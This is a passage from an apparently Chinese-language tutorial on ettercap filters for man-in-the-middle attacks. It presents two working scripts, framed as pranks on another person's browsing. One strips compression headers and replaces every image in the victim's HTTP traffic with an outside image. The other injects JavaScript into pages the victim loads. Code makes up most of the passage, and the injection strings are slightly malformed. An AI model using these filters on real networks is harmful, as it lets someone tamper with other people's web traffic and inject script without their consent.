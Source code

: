 　　![img](ImageAssets/270105101064311-1573358989636.png)

　　(2) 替换网页的图片:

　　貌似上面的恶搞还不爽,那就把他浏览网页时的图片换掉试试,使用的脚本是etter.filter.images,如下:



```bash
if (ip.proto == TCP && tcp.dst == 80) {
   if (search(DATA.data, "Accept-Encoding")) {
      replace("Accept-Encoding", "Accept-Rubbish!"); 
      # note: replacement string is same length as original string
      msg("zapped Accept-Encoding!\n");
   }
}
if (ip.proto == TCP && tcp.src == 80) {
   replace("img src=", "img src=\"http://www.iyi8.com/uploadfile/2014/0921/20140921113722651.jpg\" ");
   replace("IMG SRC=", "img src=\"http://www.iyi8.com/uploadfile/2014/0921/20140921113722651.jpg\" ");
   msg("Filter Ran.\n");
}
```



　　(3) JavaSproit注入:

　　技术有限,这里就简单的弹个窗吧 :(　使用的脚本是etter.filter.alert：

```bash
if (ip.proto == TCP && tcp.dst == 80) {
    if (search(DATA.data, "Accept-Encoding")) {
           replace("Accept-Encoding", "Accept-Rubbish!");
           msg("zapped Accept-Encoding!\n");
    }
}
if (ip.proto == TCP && tcp.src == 80) {
    if (search(DATA.data, "<body")) {
        replace("<head","<head<script type="text/javascript"alert('just for a test!');</script");
        replace("<HEAD","<HEAD<script type="text/javascript"alert('just for a test');</script");
        msg("Filter run!...Exploit code injected ok!\n");
    }
}
```


